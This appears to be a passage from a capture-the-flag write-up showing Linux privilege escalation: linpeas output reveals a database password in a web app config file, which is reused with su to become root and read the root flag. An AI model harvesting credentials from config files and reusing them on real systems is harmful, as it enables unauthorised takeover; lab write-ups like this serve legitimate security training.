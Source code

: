 
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist  
 LEGEND:                                                                                                                                                            
  RED/YELLOW: 95% a PE vector  
  RED: You should take a look to it  
  LightCyan: Users with console  
  Blue: Users without console & mounted devs  
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)   
  LightMagenta: Your username  
  
 Starting linpeas. Caching Writable Folders...  
...  
══════════╣ Active Ports  
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                       
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                 
tcp6       0      0 :::80                   :::*                    LISTEN      -                 
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                 
  
...  
╔══════════╣ Analyzing Backup Manager Files (limit 70)  
                                                                                                                                                                    
-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php  
|       ['password'] The password used to connect to the database  
|       ['database'] The name of the database you want to connect to  
        'password' => 'mememe',  
        'database' => 'fuel_schema',  
...


www-data@ubuntu:/tmp$ su root            
su root   
Password: mememe  
  
root@ubuntu:/tmp# ls -all /root  
ls -all /root  
total 32  
drwx------  4 root root 4096 Jul 26  2019 .  
drwxr-xr-x 24 root root 4096 Jul 26  2019 ..  
-rw-------  1 root root  357 Jul 26  2019 .bash_history  
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc  
drwx------  2 root root 4096 Feb 26  2019 .cache  
drwxr-xr-x  2 root root 4096 Jul 26  2019 .nano  
-rw-r--r--  1 root root  148 Aug 17  2015 .profile  
-rw-r--r--  1 root root   34 Jul 26  2019 root.txt  
root@ubuntu:/tmp# cat /root/root.txt  
cat /root/root.txt  
b9bbcb33e11b80be759c4e844862482d
## Notas
